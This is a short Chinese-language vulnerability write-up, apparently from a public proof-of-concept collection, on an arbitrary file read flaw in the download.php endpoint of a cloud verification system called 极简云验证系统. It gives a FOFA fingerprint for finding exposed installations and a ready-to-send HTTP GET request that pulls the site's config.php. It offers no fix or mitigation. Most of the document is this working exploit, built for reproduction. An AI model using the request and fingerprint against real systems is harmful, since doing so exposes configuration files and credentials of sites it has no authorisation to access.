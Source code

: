 # 极简云验证系统download存在任意文件读取漏洞

# 一、漏洞简介
  极简云验证系统是一种简洁高效的身份验证方案，通过使用云端技术，实现用户身份验证和访问控制。用户只需输入手机号或邮箱等基本信息，系统即可发送验证码，验证过程快速便捷。此系统具有高度可扩展性和安全性，可适用于各种应用场景，如登录、支付等。同时，它还支持多种验证方式，如短信验证码、邮箱验证码等，为用户提供了灵活多样的选择。极简云验证系统download存在任意文件读取漏洞.

# 二、影响版本
+ 极简云验证系统

# 三、资产测绘
+ fofa`body="/js/lib/slimscroll.js"`
+ 特征

![1716702913106-fec91c96-5f2a-4063-a0e5-b65356000943.png](./img/LoAiN1zPg1DKrr7w/1716702913106-fec91c96-5f2a-4063-a0e5-b65356000943-988402.png)

# 四、漏洞复现
```plain
GET /download.php?file=20b6cb088a8d5c444074&filename=config.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1716702895265-c8e22574-c199-4d32-9242-a80b5e812e26.png](./img/LoAiN1zPg1DKrr7w/1716702895265-c8e22574-c199-4d32-9242-a80b5e812e26-138711.png)



> 更新: 2024-06-01 11:14:22  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/opf4xa6pir84dgb4>